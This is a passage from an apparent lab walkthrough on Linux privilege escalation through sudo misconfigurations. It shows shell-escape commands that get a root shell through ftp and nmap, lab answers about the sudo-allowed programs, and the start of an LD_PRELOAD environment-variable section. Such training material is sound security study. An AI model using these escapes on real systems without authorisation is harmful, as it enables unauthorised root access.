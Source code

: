 - **ftp**:
  ```bash
  sudo ftp
  !/bin/sh
  ```

- **nmap**:
  ```bash
  sudo nmap --interactive
  nmap> !sh
  ```

### Q1. How many programs is "user" allowed to run via sudo?

Run the following command to count the number of root-level commands available via sudo:

```bash
sudo -l | grep "(root)" | wc -l
```

**Sample Output:**

```bash
11
```

**Answer:** 11

### Q2. One program on the list doesn’t have a shell escape sequence on GTFOBins. Which is it?

**Answer:** `apache2` was not found on GTFOBins.

## Sudo - Environment Variables

### Understanding Sudo and Environment Variables

Sudo can be configured to inherit certain environment variables from the user's environment. These variables can be leveraged to escalate privileges, particularly when the `LD_PRELOAD` and `LD_LIBRARY_PATH` environment variables are inherited.

### Step 1: Check Inherited Environment Variables

First, check which environment variables are inherited by sudo, focusing on `env_keep` options:

```bash
sudo -l
```

**Sample Output:**

```bash
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
